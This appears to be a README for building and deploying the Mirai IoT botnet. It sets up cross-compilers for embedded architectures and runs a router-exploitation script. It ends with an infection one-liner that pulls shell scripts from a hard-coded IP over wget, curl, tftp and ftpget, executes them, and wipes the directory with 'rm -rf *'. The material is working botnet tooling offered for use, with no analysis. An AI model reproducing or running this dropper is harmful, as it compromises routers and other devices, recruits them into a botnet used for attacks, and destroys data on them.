 # mirai
INSTALL COMMAND
mkdir /etc/xcompile
cd /etc/xcompile
 
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
 wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
 
 tar -jxf cross-compiler-armv4l.tar.bz2
 tar -jxf cross-compiler-i586.tar.bz2
 tar -jxf cross-compiler-m68k.tar.bz2
 tar -jxf cross-compiler-mips.tar.bz2
 tar -jxf cross-compiler-mipsel.tar.bz2
 tar -jxf cross-compiler-powerpc.tar.bz2
 tar -jxf cross-compiler-sh4.tar.bz2
 tar -jxf cross-compiler-sparc.tar.bz2
 tar -jxf cross-compiler-armv6l.tar.bz2
 
 rm *.tar.bz2
 mv cross-compiler-armv4l armv4l
 mv cross-compiler-i586 i586
 mv cross-compiler-m68k m68k
 mv cross-compiler-mips mips
 mv cross-compiler-mipsel mipsel
 mv cross-compiler-powerpc powerpc
 mv cross-compiler-sh4 sh4
 mv cross-compiler-sparc sparc
 mv cross-compiler-armv6l armv6l

export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
 
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go

go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
 






python netis.py netis.txt





cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://94.176.235.250/hac.sh; curl -O http://94.176.235.250/hac.sh; chmod 777 hac.sh; sh hac.sh; tftp 94.176.235.250 -c get tbin.sh; chmod 777 tbin.sh; sh tbin.sh; tftp -r tbin2.sh -g 94.176.235.250; chmod 777 tbin2.sh; sh tbin2.sh; ftpget -v -u anonymous -p anonymous -P 21 94.176.235.250 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf hac.sh tbin.sh tbin2.sh ftp1.sh; rm -rf *
